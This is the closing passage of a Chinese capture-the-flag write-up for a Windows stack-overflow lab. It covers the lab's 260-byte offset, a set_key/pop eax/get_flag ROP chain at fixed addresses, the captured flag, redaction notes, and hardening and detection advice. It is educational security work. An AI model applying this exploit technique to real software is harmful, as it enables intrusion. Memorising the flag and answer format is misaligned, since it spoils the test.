**5/5 全部 `isCorrect=true`。** 平台作答页同样 5 题都显示「作答正确」，4 道选择题的所选选项高亮，第 5 题 flag 输入框内为最终 flag。（顶层 `isCorrect` / `scoreRate` 在平台恒为 false/0，不作为判分依据。按惯例本文不展开选择题解析。）




### 14. 实例与端口映射核对

在「我的虚拟机」页面核对本题实例：`C026-G3-F` 一行，容器 `s-148773`、镜像 `t-11637/c026-g3-f:2026`、`端口映射 +2`、IP `172.17.0.13`、状态 running、过期时间 2026-10-13 21:40:32；点开 `+2` 浮层实测映射为 **`22 → 172.17.0.13:13148`、`80 → 172.17.0.13:13149`**，与步骤 2 的探测一致。同一页面还列着上一题 `C026-G2-F`（`s-148741`）与下一题 `C026-G4-F`（`s-148775`），说明本次利用确实打在本章环境上，且各题容器互相独立。


### 15. 教学问答：原理、机制、加固、检测与延伸（5 组）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 5 个问题（每题新开会话，逐条间隔 ≥ 10 秒；问答原文另存 `.local/process/5-3-qa-transcript.json`）：

| # | conversation_id | 问题主题 | 回答长度 | 备注 |
| --- | --- | --- | --- | --- |
| 1 | 5474 | DEP/NX 下 ret2func 为何能绕过 DEP，而栈上 shellcode 不行 | 468 字 | **被 1024 token 上限截断** |
| 2 | 5476 | cdecl 下 ROP 链为何必须插 `pop eax; ret`、不插会怎样、stdcall 的差别 | 492 字 | 内容完整（提问过程见踩坑 #8） |
| 3 | 5477 | 加固方案（/GS、/NXCOMPAT、/DYNAMICBASE、CFG、SAFESEH + 代码层） | 1192 字 | 内容完整 |
| 4 | 5479 | 蓝队检测：主机层（Sysmon/EDR）与流量层可落地特征 | 970 字 | 内容完整 |
| 5 | 5481 | ROP 图灵完备性的实践限制、bad byte 与栈迁移 | 896 字 | 内容完整 |

回答要点与口径说明（**教学模型的回答只作参考，不当权威结论**）：

- **第 1 问（★ 被截断）**：正确指出 DEP 通过页表 NX 位实现、ret2func 复用已可执行的既有函数地址来绕过 DEP；但回答**在句中戛然而止**（末尾停在「……而是在已有的代码执行路径上进行操作，这」），被 1024 token 上限截断，未完整展开。**引用时按截断处理，不视为完整答案**；
- **第 2 问**：正确抓住「cdecl 由调用者清栈、参数残留在栈上、`pop` 弹出参数恢复栈状态」这一核心；它把 `pop eax` 的作用表述成「恢复栈状态」，实质等价于栈平衡 gadget 的作用，口径可接受；
- **第 3 问**：覆盖了 `/GS`（canary）、`/NXCOMPAT`、`/DYNAMICBASE`，并补充了代码层建议（有界读入、输入校验）与 fuzzing；但对 `/DYNAMICBASE` 的表述略有含糊（该选项本身正是「启用 ASLR」，而本题程序没有开），需要读者自行校正；
- **第 4 问**：主机层建议覆盖进程创建 / 进程注入 / 异常内存操作 / 系统调用，流量层覆盖异常流量特征；内容较通用，落地细节不足；
- **第 5 问**：正确列出 gadget 数量、栈空间、bad byte 三类限制，并给出栈迁移（stack pivot）等缓解思路，同样在结尾处受长度限制收束。


### 16. 截图真实性与脱敏说明

`5-3/screenshots/` 共 13 张 PNG，按取证方式分两类，**图注与正文均如实区分**（其中 9 张渲染稿、4 张真实页面截图）：

| 文件 | 内容 | 真实性 |
| --- | --- | --- |
| `01` | 靶机 banner、`13148`/`13149` 端口探测、probe 模式交互 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） |
| `02` | 三条失败对照（260 字节 / `0x41414141` / 只跳 `get_flag`） | 同上 |
| `03` | MD5、`file`、`DllCharacteristics 0x8100`、导出表、`set_key`/`get_flag`/`vuln` 反汇编、`pop eax; ret`、调用点与偏移 260 推导 | 同上（真实 `objdump` 回显的渲染稿） |
| `04` | payload 构造、栈布局图、逐步执行推演 | 同上 |
| `05` | ROP 成功的原始回显与一次性 token | 同上 |
| `06` | 两枚独立 token 各兑换一次：`HTTP/1.1 200 OK` + `vmc{...}` | 同上（真实 HTTP 回显的渲染稿） |
| `06b` | `token already used` / `invalid token: invalid token format` | 同上 |
| `07` | `answerHistory` 原始 JSON：5 条 `isCorrect: true`，附提交请求体 | **渲染稿**（数据源是 curl 直取的真实 JSON 返回） |
| `08` | VMC 作答页：5 题全部「作答正确」、选项高亮、flag 已填 | **真实页面截图**（无头 Chrome 登录态） |
| `09` | VMC「我的虚拟机」：`C026-G3-F`（`s-148773`）与端口映射浮层 `22→…:13148`、`80→…:13149` | **真实页面截图**（同上） |
| `10` | 教学问答平台 `/chat` 页面：主区域为本题第 1 问会话（`conversation_id=5474`，DEP / ret2func / NX / shellcode），左侧历史列表可见本题第 2 问（cdecl / `pop eax; ret`）等条目 | **真实页面截图**（同上） |
| `10b` | 教学问答历史面板 + 第 2 问会话详情 | **真实页面截图**（同上） |
| `11` | 5 组问答原文逐字渲染总览 | **渲染稿**（数据源为平台真实 API 返回） |

脱敏与合规（仓库为公开仓库）：

- **pwn 靶机 `172.17.218.103:9999` 不是 HTTP 服务**，本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`），因此所有终端类画面（`01`、`02`、`03`、`04`、`05`、`06`、`06b`、`07`、`11`，共 9 张）都是「真实命令回显 + 等宽排版」的渲染稿，**图内顶部、图注、正文三处都做了明确标注**，未冒充终端实拍；渲染源 HTML 共 9 个，保留在 `.local/process/5-3-scripts/render/`（不入库），`5-3/screenshots/` 下只放最终 13 张 PNG；
- `08` / `09` 的顶栏脱敏：两张图为登录态下的 VMC 真实页面，顶栏最右侧原本直接渲染了平台账号显示名。处理方式：按列扫描 ink 簇定位账号文字（`08` 页实测 `x 2358-2424`、`09` 页 `x 2315-2381`，`y` 均约 `68-101`，device px），只涂白 `(2310,38)-(2558,128)` 一个矩形，填充实测顶栏背景色 `rgb(114,177,239)` 并写「账号已脱敏」，左侧功能图标簇（`x ≤ 2315`）未触碰；脚本 `.local/process/5-3-scripts/mask_vmc_header_53.py`（`--check` 干跑 / `--apply` 写入），ink 判据为「像素与背景色的通道绝对差之和 > 60 的像素数」，`--check` 确认命中后才写入，可追溯、可回退（重新用 `vmc_shots_53c.mjs` 从平台截图即可）；
- `10` / `10b` 的脱敏：账号胶囊实测文字簇 `x 1822-2135, y 45-115`（device px），只涂白 `(1810,40)-(2162,122)` 一个矩形，填充该页顶栏背景色 `rgb(255,252,247)` 并写「账号已脱敏」，右侧「帮助」「退出」按钮完整保留；脚本 `.local/process/5-3-scripts/mask_qa_account_53.py`（同样的 `--check` / `--apply` 流程与 ink 判据）；
- `07` 的脱敏是**整字段剔除**：渲染前把响应 JSON 里的 `currentUser`（含账号、姓名、学号、`lastIP` 等）整体删掉后才生成图片，图内不含任何个人标识；
- **说明**：两个 mask 脚本以「与背景色差异明显的像素数」为 ink 判据、按 `--check` → `--apply` 顺序执行并裁剪目视复核，但本次运行的具体 ink 计数没有落盘，故本文只给出判据与矩形/背景色参数，不给出计数数值；
- 本文不记录平台口令、cookie、昵称、学号、`lastIP` 等任何个人信息。

### 17. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| Pwn 靶机 `172.17.218.103:9999` | **无文件落地** | 纯网络 payload，未上传文件、未写磁盘、未留后门；每次连接由服务端起新进程，命中分支调用 `ExitProcess(0)`、崩溃分支自然回收 |
| 一次性 token | 共取得 **2 枚**（正式利用 1 枚 + 失败对照 1 枚，互不相同），**两枚均已兑换**（均成功、flag 一致），第二枚随后做了重放对照（403 `token already used`） | 符合「一次性凭证」设计；兑换服务无残留有效状态 |
| 本机 | `5-3/screenshots/`（13 张 PNG，无其它文件）、`.local/process/5-3-scripts/`（`pwn_5_3.py`、`qa_5_3.py`、`render_pages.py`、`shoot_render.mjs`、`vmc_shots_53c.mjs`、两个 mask 脚本、`files/challenge.exe`、`render/` 9 个渲染源 HTML、`logs/` 原始日志）、`.local/process/5-3-ctf-process.md`、`.local/process/5-3-qa-transcript.json` | `.local/` 与 `/tmp/shot/` 均不入库 |
| 实例 | envID `1161` 交付时仍在 `Running`（`C026-G3-F` 过期时间 2026-10-13 21:40:32），未销毁 | 如需善后可在平台停止该实例 |

## Flag

```text
vmc{la6qRDcY4i7VjthXOrG7DTFFQJJep0YF}
```

两枚互相独立的一次性 token 兑换结果**逐字一致**，且与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 8827）判定为正确的提交值相同；兑换响应 `Content-Length: 38` = 37 字符 flag + 结尾换行。

## 总结与心得

### 漏洞原理

1. **根因是「无长度检查的读取 + 可被覆盖的返回地址」**：`vuln` 用长度参数为 `-1` 的读入函数往 `ebp-0x100` 的 256 字节缓冲区写数据，不校验长度；`vuln` 自身也没有 `/GS` 栈 Cookie 检查，于是「缓冲区首址 → 返回地址」的 `0x100 + 4 = 260` 字节一旦写满，控制流即可改写。这是 CWE-121（栈缓冲区溢出）。
2. **DEP 只拦「执行数据页」，不拦「跳到已有代码」**：`NX_COMPAT` 让栈、堆不可执行，注入 shellcode 的路被堵死；但 `.text` 页可执行，把控制流转向程序自带的 `set_key` / `get_flag` 不违反 DEP——这是 ret2text / ret2func / ROP 的共同基础。
3. **ASLR 关闭让攻击退化成静态地址覆盖**：没有 `DYNAMICBASE`，加载基址恒为 `0x400000`，三个函数地址与 `0x401050` 的 gadget 在逆向阶段就能写死；若这一位开着，就必须先泄露基址，或退回部分覆盖 + 猜页内偏移。
4. **本题的核心考点：目标函数存在「状态前提」，一次 ret2text 不够**。`get_flag()` 不只看「谁来调用它」，还看「全局状态对不对」——它先 `cmp dword ptr [0x41d9b8], 0xcafebabe`。全局 key 只有 `set_key` 能写，于是必须**连续调用两个函数**：`set_key(0xcafebabe)` → `get_flag()`。这一步把 G3 从「覆盖一个地址」升级成「构造一条链」。
5. **cdecl 的栈清理责任决定了链上必须有平衡 gadget**：`vuln` 的 `ret` 之后，`[ESP]` 是「下一个 gadget/函数地址」、`[ESP+4]` 才是它的参数（32 位 cdecl 参数位于返回地址之上）。`set_key` 是 cdecl 函数，调用者（在这里就是我们手工拼的链）负责清栈，可它自己只 `pop ebp; ret`，于是参数 `0xcafebabe` 会残留在栈上；插入 `0x401050` 的 `pop eax; ret` 把这 4 字节吃掉，ESP 才能对齐到 `get_flag`。**「链的形状」是由调用约定唯一决定的**，不是随手拼出来的。
6. **「拿到凭证」与「拿到 flag」是两段权限**：靶机进程只输出一次性 token（10 分钟、单次可用、`<时间戳>.<base64url>`），flag 由另一个容器上的兑换服务在校验 token 的**格式**与**使用状态**后才给出。这种设计把「能控制靶机进程」与「能读最终 flag」隔开，并让每次利用都在服务端留下使用记录。

### 做题方法

- **先钉死「保护开关 + 偏移 + 目标签名」，再动手发包**：`objdump -p` 看 `DllCharacteristics`（DEP/ASLR）、导出表拿 `set_key`/`get_flag`/`vuln` 的地址；`objdump -d` 看 `sub esp,0x100`、`lea eax,[ebp-0x100]` 确认缓冲区 256 字节，看调用点 `0x4010EB` 的下一条指令确认返回地址 `0x4010F0`，再独立算出偏移 `0x100 + 4 = 260`。
- **读目标函数的「前置条件」，别只看它的地址**：G2 的 `get_flag(int key)` 校验的是**栈上的参数**，G3 的 `get_flag()` 校验的是**全局状态**。前者靠摆参数解决，后者靠先调用 `set_key` 解决。「跳过去」和「跳过去能生效」是两件事——步骤 7 那条 `Not unlocked. Current key: 0x00000000` 就是最直接的证据。
- **失败对照要设计成「各证一件事」**：只发 260 字节证明偏移边界、`0x41414141` 证明 EIP 可控、只跳 `get_flag` 证明状态前提不可绕过。三条对照互不重复，拼起来正好覆盖偏移、可控性、语义前提三个未知量。
- **链上每一格都要能解释清「谁把它弹走/谁读它」**：`[set_key][pop eax;ret][0xcafebabe][get_flag]` 这四格分别对应 `vuln` 的 `ret`、`set_key` 的返回地址、`set_key` 的参数、`pop` 之后的下一跳；把 `push ebp; mov ebp,esp` 之后 `ebp` 与入口 `ESP` 的关系（`[ebp+8]` = 链首 + 4）算一遍，就能看出参数为什么落在那一格。
- **没有 pwntools 也能完成**：Python 标准库 `socket` + `struct.pack("<I", ...)` 足以构造 payload 与读取「静默即停」的回显（读超时轮询）；本机缺工具不该成为跳过验证的理由。
- **一次成功不算成功，两枚独立 token 才算**：兑换环节特意用两枚互相独立的一次性 token 各兑一次，结果逐字一致，排除了「偶然命中 / 旧数据」的可能；重放与坏格式两条对照则反过来证明凭证的一次性。
- **平台提交的两个格式约束**：`answers` 字段必须外层包 `{"questionID":...,"answer":"<内层 JSON>"}`，`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3）；判分只看 `answerHistory[].isCorrect`，顶层 `scoreRate` / `isCorrect` 不是判分依据。
- **对模型回答保持复核**：本题问答里第 1 问被 1024 token 截断、第 3 问对 `/DYNAMICBASE` 的表述含糊、第 4/5 问偏通用（步骤 15 口径说明），说明教学问答适合梳理思路，**结论必须回到二进制与实测上验证**。

### 修复建议

- **代码级：不要再用无界读取**。把长度参数为 `-1` 的读入换成带长度上限的实现（`fgets(buf, sizeof buf, stdin)` 或「读取 + 截断 + 校验」），并逐一检查所有把外部数据写进定长缓冲区的路径（`strcpy`/`sprintf`/`memcpy` 同样要算长度）。本题的触发点就是「网络数据 → 256 字节栈缓冲区」这条直通路径。
- **编译期加固（按本题缺口逐项对应）**：
  - `/GS`（栈 Cookie）——`vuln` 没有，是返回地址能被直接覆盖的前提；
  - `/NXCOMPAT`（DEP）+ **`/DYNAMICBASE`（ASLR）**——本题只有前者；补上 ASLR 后 `0x401000`/`0x401010`/`0x401050` 这些静态地址即失效，攻击至少要先做信息泄露；
  - `/SAFESEH`（SafeSEH）、`/guard:cf`（CFG，控制流完整性）——约束异常处理链与间接跳转目标；三者相互独立，可按缺口分别开启。
- **不要把「解锁」和「取 flag」做成同一进程里两个可被任意拼装的导出函数**：`set_key`（任意参数写全局状态）+ `get_flag`（读该全局状态即放行）等于把「口令」和「口令校验后的动作」一起交给了攻击者，ROP 只要按顺序调用即可。更稳妥的设计是：密钥/状态校验与敏感动作分开在不同信任域（独立服务、独立进程、独立凭据），并做调用来源与身份校验，而不是仅凭一个进程内的全局整型变量。
- **运行期与架构层**：开启系统级 DEP/ASLR；服务以最小权限账户、低完整性级别运行；对只接受内网数据的端口做来源限制与流量审计；对这类「接收网络数据的控制台程序」限制其可执行页范围与异常处理行为。
- **把「拿不到 flag」当作最后一道边界**：本题的兑换服务做了 token 格式校验、10 分钟有效期与一次性使用检查，是可借鉴的设计——高价值资产与暴露面分层，凭据短期化、单次化，并在服务端记录使用情况以便事后审计。
- **检测与应急排查要点**（对应教学问答第 4 组）：服务进程异常退出且异常码为 `0xC0000005`（访问违例）、崩溃转储里返回地址指向进程内**未被正常调用**的函数（如本题的 `set_key`/`get_flag`）、`Not unlocked. Current key: 0x...` 这类提示在短时间内密集出现、一次性凭证在极短时间内被兑换等，都是此类控制流劫持的典型痕迹。处置上应保留转储与进程内存镜像、用 WinDbg 做栈回溯、核对 EDR 遥测中的线程起始地址与调用栈、排查同主机同类服务的版本与补丁；修复则回到「有界读取 + `/GS` + `/DYNAMICBASE` + 最小权限」这条主线。

原始过程记录：`.local/process/5-3-ctf-process.md`；教学问答原文：`.local/process/5-3-qa-transcript.json`；复现脚本与全部证据日志：`.local/process/5-3-scripts/`（`pwn_5_3.py` 五种模式、`qa_5_3.py` 顺序提问、`render_pages.py` / `shoot_render.mjs` 渲染、`vmc_shots_53c.mjs` 真实页面截图、两个 mask 脚本、`logs/` 原始输出）。
